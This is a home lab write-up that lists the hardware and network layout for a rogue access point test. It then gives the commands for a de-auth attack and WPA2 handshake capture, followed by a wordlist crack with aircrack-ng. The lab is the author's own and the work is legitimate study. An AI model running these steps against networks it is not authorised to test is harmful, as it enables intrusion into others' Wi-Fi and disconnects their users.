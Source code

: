### Rogue AP and Wi-Fi Cracking

#### Descriptions of Test Environment

* **Date**: 09/04/2023

* **Hardware Involved**:
  
  * Raspberry Pi (Ubuntu Server) with BrosTrend AC5L USB Wireless adapter
  
  * Dell XPS 13 (Arch Linux)
  
  * Dell XPS 8940 (Arch Linux) with BrosTrend AC5L USB Wireless adapter
  
  * ARRIS Group, Inc TG3482G Wireless router/gateway

* **Network Topology**:
  
  * **Router**
    
    * Xfinity Router (ARRIS Group TG3482G)
    
    * SSID: "Home"
    
    * Subnet Mask: 255.255.255.0
    
    * MAC: 14:C0:3E:92:AC:2E
  
  * **Desktop (Arch Linux)**
    
    * Built-in wireless interface (wlo1)
      
      * Connected to "Home" network
      
      * IP address: 10.0.0.92
      
      * MAC: 34:C9:3D:00:55:73
    
    * USB Wireless Interface (wlp0s20f0u4)
      
      * Not connected to any network
      
      * Intended for packet capturing and de-auth attack
      
      * MAC: E6:1E:1A:83:79:35
  
  * **Raspberry PI**
    
    * Built-in Wireless Interface (wlan0)
      
      * Connected to "Home" network
      
      * IP Address: 10.0.0.189
      
      * MAC: dc:A6:32:C9:F7:1F
    
    * USB Wireless Interface (wlan1)
      
      * AP Mode
      
      * Broadcasting network "uuoouu"
      
      * IP Address: 192.168.1.1
      
      * Subnet mask: 255.255.255.0
      
      * MAC: 34:7D:E4:40:19:C7
  
  * **Laptop (Arch Linux)**
    
    * Connected to the "uuoouu" network
    
    * IP Address: 192.168.1.207
    
    * 9C:B6:D0:99:DE:F7

#### Actions Taken

**Raspberry Pi**

* Ran rogue_ap.sh script:
  `./rogue_ap.sh wlan0 wlan1 192.168.1.1 255.255.255.0 "uuoouu" -p [pwd]`

**Laptop**

* Connected laptop to the "uuoouu" network

* Started continuous ping
  `ping -c 10000 google.com`

**Desktop**

* Put wlp0s20f0u4 into monitor mode and change MAC address
  
  ```bash
  sudo ip link set wlp0s20f0u4 down
  sudo ip link set dev wlp0s20f0u4 address 12:34:56:78:9a:bc
  sudo iw dev wlp0s20f0u4 set type monitor
  sudo ip link set wlp0s20f0u4 up
  ```

* Initiate wireless network scan on the interface wlp0s20f0u4 with airodump
   `sudo airodump-ng wlp0s20f0u4`

* Captured:
  
  * ESSID: uuoouu
  
  * AUTH: PSK
  
  * CIPHER: CCMP
  
  * ENC: WPA2
  
  * MB: 54
  
  * CH: 7
  
  * #/s: 0
  
  * #Data: 2
  
  * Beacons: 8
  
  * PWR: -47
  
  * BSSID: 34:7D:E4:40:19:C7

* Start capture on target and direct captured data to file capture_output
  `sudo airodump-ng -c 7 --bssid 34:7D:E4:40:19:C7 -w capture_output wlp0s20f0u4`

* In other terminal, perform the de-auth attack
  `sudo aireplay-ng --deauth 10 -a 34:7D:E4:40:19:C7 -c [optional client MAC] wlp0s20f0u4`

* Analyze capture with aircrack-ng - The output will indicate if a handshake was captured
  `aircrack-ng capture-output-01.cap`

* Attempt to crack password by providing wordlist
  `aircrack-ng -w <path to wordlist> capture_output-01.cap`

* Success!
  ![cracked](/home/arbegla/projects/notes/wifi_cracking/cracked_pwd.png)
